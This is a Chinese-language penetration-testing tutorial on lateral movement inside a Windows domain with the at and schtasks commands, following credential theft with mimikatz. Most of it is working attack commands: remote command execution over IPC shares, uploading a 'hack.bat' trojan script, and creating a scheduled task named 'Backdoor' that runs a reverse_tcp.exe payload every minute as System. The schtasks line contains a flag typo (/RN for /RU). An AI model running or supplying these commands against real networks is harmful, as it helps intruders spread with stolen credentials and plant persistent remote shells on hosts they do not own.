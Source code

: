 # [at & schtasks & sc 横向](#toc_at-schtasks-sc)

在拿下一台内网主机后，通过本地信息搜集收集用户凭证等信息后，如何横向渗透拿下更多的主机？

使用 at&schtasks 命令，创建计划任务，在已知目标系统的用户明文密码的基础上，直接可以在远程主机上执行命令。

**获取到某域主机权限->minikatz 得到密码（明文，hash）->用到信息收集里面域用户的列表当做用户名字典->用到密码明文当做密码字典->尝试连接->创建计划任务 (at|schtasks)->执行文件可为后门或者相关命令**

### [利用流程](#toc__1)

\\1. 建立 IPC 链接到目标主机

\\2. 拷贝要执行的命令脚本到目标主机

\\3. 查看目标时间，创建计划任务（at、schtasks）定时执行拷贝到的脚本

\\4. 删除 IPC 链接

ps: **Windows Server 2012 以后的版本没有 at 命令，只有 schtasks 命令**

### [at（计划任务）](#toc_at)

利用过程如下：

```bash
net time \\192.168.1.131
# 查看时间
at \\192.168.1.131 10:30 cmd.exe /c "whoami > c:\result.txt"
# 结果输出到 result 下
type \\192.168.1.131\c$\result.txt
# 查看执行结果
at \\192.168.1.131 1 /delete
# 删除计划任务，1 是任务号
copy hack.bat \\192.168.1.131\c$\Windows\Temp
# 上传 bat 脚本
net time \\192.168.1.131                                                        
# 查看时间
at \\192.168.1.131 19:48 c:\Windows\Temp\hack.bat
# 创建定时任务，执行木马脚本
at \\192.168.1.131                                                              
# 查看任务列表
```

### [schtasks（计划任务）](#toc_schtasks)

操作步骤：

1.  利用已建立的 IPC 连接上传后门程序
2.  利用已建立的 IPC 连接或指定用户凭据的方式在远程主机上创建计划任务 shell

```bash
schtasks /Create /S 192.168.1.131 /TN Backdoor /SC minute /MO 1 /TR C:\users\pubilc\reverse_tcp.exe /RN System /F # /S 指定要连接的系统； /TN 指定计划任务的名称 # /SC 指定计划任务执行频率；  /MO 指定计划任务执行周期 # /TR 指定计划任务执行程序；  /RU 指定计划任务运行的用户权限 # /F  如果指定的任务已存在，则强制创建
```
